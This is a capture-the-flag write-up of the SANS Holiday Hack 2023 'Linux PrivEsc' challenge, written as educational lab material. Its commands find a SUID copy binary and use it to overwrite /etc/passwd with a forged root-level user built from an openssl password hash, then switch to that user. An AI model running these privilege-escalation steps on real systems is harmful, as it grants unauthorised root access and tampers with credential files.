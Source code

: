 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Linux PrivEsc
Difficulty: :christmas_tree::christmas_tree::christmas_tree:    
Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

### Hints
#### Linux Privilege Escalation Techniques
*From: Rose Mold*
There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.
#### Linux Command Injection
*From: Rose Mold*
Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

### Solution
Knowing that the challenge is related to Linux Privilege Escalation, a common reconnaissance step is to list SUID executables, which in this case highlights an uncommon one called simplecopy:
```bash
elf@72cacccd1fe6:~$ find / -type f -perm -04000 -ls 2>/dev/null
  1312417     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /usr/bin/chfn
  1312423     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /usr/bin/chsh
  1312541     56 -rwsr-xr-x   1 root     root        55528 May 30  2023 /usr/bin/mount
  1312546     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /usr/bin/newgrp
  1312620     68 -rwsr-xr-x   1 root     root        67816 May 30  2023 /usr/bin/su
  1312484     88 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /usr/bin/gpasswd
  1312645     40 -rwsr-xr-x   1 root     root        39144 May 30  2023 /usr/bin/umount
  1312557     68 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /usr/bin/passwd
  1457015     20 -rwsr-xr-x   1 root     root        16952 Dec  2 22:17 /usr/bin/simplecopy
```
The `simplecopy` executable looks like a standard `cp` command, but eventually allowing to overwrite root-owned files. One escalation path would be to overwrite `/etc/passwd`, adding a user with root privileges for which the attacker knows all credentials. First thing is to generate the passwd content:
```bash
thedead@dellian:~/hhc2023/Linux PrivEsc$ openssl passwd -1 -salt kringle con2023
$1$kringle$M.uL5k/EEbyamRF6aMNJz/
```
Then add the new user `breakstuff` it to the `/etc/passwd` file:
```bash
elf@72cacccd1fe6:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
# Output removed to shorten report
elf:x:1000:1000::/home/elf:/bin/sh
elf@72cacccd1fe6:~$ cp /etc/passwd passwd_tamper
elf@72cacccd1fe6:~$ echo 'breakstuff:$1$kringle$M.uL5k/EEbyamRF6aMNJz/:0:0:root:/root:/bin/bash' >> passwd_tamper
elf@72cacccd1fe6:~$ /usr/bin/simplecopy passwd_tamper /etc/passwd
```
Lastly login as `breakstuff` to gain root privileges and... `runmetoanswer`!
```bash
elf@72cacccd1fe6:~$ su breakstuff
Password:
root@72cacccd1fe6:/home/elf# cd
root@72cacccd1fe6:~# ls
runmetoanswer
root@b5bd66274d00:~# ./runmetoanswer
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```
